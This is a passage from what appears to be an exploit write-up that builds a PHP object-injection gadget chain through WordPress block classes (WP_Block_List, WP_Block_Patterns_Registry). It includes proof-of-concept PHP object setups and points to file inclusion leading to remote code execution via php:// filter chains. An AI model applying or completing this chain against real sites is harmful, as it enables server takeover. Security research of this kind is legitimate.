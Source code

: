 Inside the `WP_Block` constructor, a new `WP_Block_Type_Registry` is created and its get_registered() function is called. That part doesn’t give us much to work with.

However, things get more interesting with the get_registered() function of the `WP_Block_Patterns_Registry` class. If we can control the $registry property and set it to an instance of WP_Block_Patterns_Registry, then instead of calling the default WP_Block_Type_Registry, the execution flow will pivot into `WP_Block_Patterns_Registry::get_registered()`.

This redirection is what allows us to move deeper into the gadget chain.

```php
class WP_Block_Patterns_Registry{

}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

$b = array('1');
$c = new WP_Block_Patterns_Registry();
$a = new WP_Block_List(array($b),"2",$c);
```

![image](https://hackmd.io/_uploads/SJndehNFxg.png)

Nice it jumps to this, but `$pattern_name` is not registered so it will return immediately. The `$pattern_name` will use `$this->name` which is `$block['blockName']` so we will have

```php
class WP_Block_Patterns_Registry{
    public $registered_patterns = array('hehe' => 1);
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

$b = array("blockName" => "hehe");
```

![image](https://hackmd.io/_uploads/BkUF7nEFex.png)

Nice now we jump to `get_content`. You see the the include function ? This can leads to LFI bug but with `php://` wrapper we can get RCE: https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html
